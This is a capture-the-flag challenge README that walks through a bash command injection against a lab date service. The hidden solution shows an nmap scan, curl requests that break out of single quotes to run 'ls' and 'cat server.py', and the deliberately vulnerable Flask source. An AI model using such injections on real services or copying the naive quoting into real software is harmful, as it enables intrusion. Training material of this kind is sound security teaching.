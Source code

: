 # What's the date

Challenge testing bash command injection

### Task

There is an awesome free service returning you the current date running at 172.20.0.30. Fortunately, the developer did their best to secure the app. Was it enough?

## How to solve
<details>
  <summary>Click to reveal how to solve steps</summary>

1. Use `nmap` to find opened ports:
```bash
root@hackerlab:~# nmap 172.20.0.30
Starting Nmap 7.93 ( https://nmap.org ) at 2024-05-07 09:30 UTC
Nmap scan report for bsy-playground-what-is-the-date-1.bsy-playground_playground-net (172.20.0.30)
Host is up (0.0000060s latency).
Not shown: 999 closed tcp ports (reset)
PORT   STATE SERVICE
80/tcp open  http
MAC Address: 02:42:AC:14:00:1E (Unknown)

Nmap done: 1 IP address (1 host up) scanned in 0.20 seconds
```

2. Discover opened port 80 and try to manipulate the server functionality:
```bash
root@hackerlab:~# curl http://172.20.0.30/   
<html>
        <head>
                <style>
                        body, pre {
                                color: #7b7b7b;
                                font: 300 16px/25px "Roboto",Helvetica,Arial,sans-serif;
                        }
                </style>
        <meta name="generator" content="vi2html">
        </head>
        <body>
        </br>
    See GET /cmd/date endpoint.</br>
    </body>
</html>
root@hackerlab:~# curl http://172.20.0.30/cmd/date
Tue May  7 09:31:30 UTC 2024
root@hackerlab:~# curl "http://172.20.0.30/cmd/date;ls"
/bin/sh: 1: date;ls: not found
```
3. We see we might inject some bash command. After some tweaking we must realize the inserted command is put between single quotes `'<cmd>'`. We can inject commands by ending the quotes.
```bash
root@hackerlab:~# curl "http://172.20.0.30/cmd/date';'ls"
Tue May  7 09:34:07 UTC 2024
index.html
server.py
root@hackerlab:~# curl "172.20.0.30/cmd/date';cat%20server.py;'ls;"
Tue May  7 09:34:35 UTC 2024
import subprocess

from flask import Flask, send_file

# Oh no, my quote was not enough? :O
# BSY{WYwjgqdrtyTiH9MFnyxMqvsFyYob0qGHYATtzf0HWoXiKnTofAUkVqAR4bed}

app = Flask(__name__)

def quote(cmd: str) -> str:
    return f"'{cmd}'"
...
```

</details>

## Testing

The script [auto-solve.sh](./auto-solve.sh) automatically verifies that the challenge can be solved.
